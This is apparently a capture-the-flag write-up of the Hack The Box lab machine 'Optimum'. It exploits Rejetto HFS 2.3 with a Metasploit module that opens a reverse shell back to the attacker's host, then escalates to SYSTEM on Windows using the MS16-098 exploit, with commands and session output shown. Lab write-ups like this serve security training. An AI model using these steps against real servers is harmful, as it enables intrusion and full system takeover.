 ```yaml
---
layout: post
title:  "Optimum"
category: writeup
author: mrtn
---
```


Todays box is `Optimum`, also known as `10.10.10.8`


The initial scan with nmap was pretty small - looks like the only attack surface visible is only port 80 on tcp.


Checking that out with the browser reveals the interface of [HFS](https://www.rejetto.com/hfs/) - a quick `searchsploit` reveals several vulnerabilities for the version 2.3, which is running on that box. Luckily, there is a `metasploit` module for that CVE. 

```bash
msfconsole
use windows/http/rejetto_hfs_exec
set rhost optimum.htb
set srvhost 10.10.14.46
set srvport 1337
run
[*] Started reverse TCP handler on 10.10.14.46:4444
[*] Using URL: http://10.10.14.46:8080/pwNwDKXp
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /pwNwDKXp
[*] Sending stage (179779 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.46:4444 -> 10.10.10.8:49162) at 2019-07-01 21:42:02 +0200
[!] Tried to delete %TEMP%\bOfDSNNtoh.vbs, unknown result
[*] Server stopped.
shell
meterpreter > shell
Process 984 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

08/07/2019  07:34 ��    <DIR>          .
08/07/2019  07:34 ��    <DIR>          ..
08/07/2019  07:34 ��    <DIR>          %TEMP%
18/03/2017  03:11 ��           760.320 hfs.exe
18/03/2017  03:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.881.613.312 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0[...]f73
```

So we have the user flag and know the username. 

Let's get some `sysinfo` and feed that into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

```bash
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
```

After checking out some others, _MS16-032_ looks more promising.

Check out the corresponding `metasploit` module for this. Also, take care, we are dealing with an `x64` installation! 

For this exploit to work, you need to set the initital meterpreter payload to `windows/x64/meterpreter/reverse_tcp` as well as the `TARGET` to `1` - which is also `x64`. 


For me it didn't work - the exploit went through, reported success but no shell spawned - so back to the list from `windows-exploit-suggester`...

After some unsuccesful attempts, _MS16-098_ seems to tick all the boxes.

```bash
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
```

Get the binary.

Upload the binary to the target. 

```bash
cmd>41020.exe
cmd>whoami
SYSTEM
```

pwned

```bash
type root.txt
51[...]]ed
```

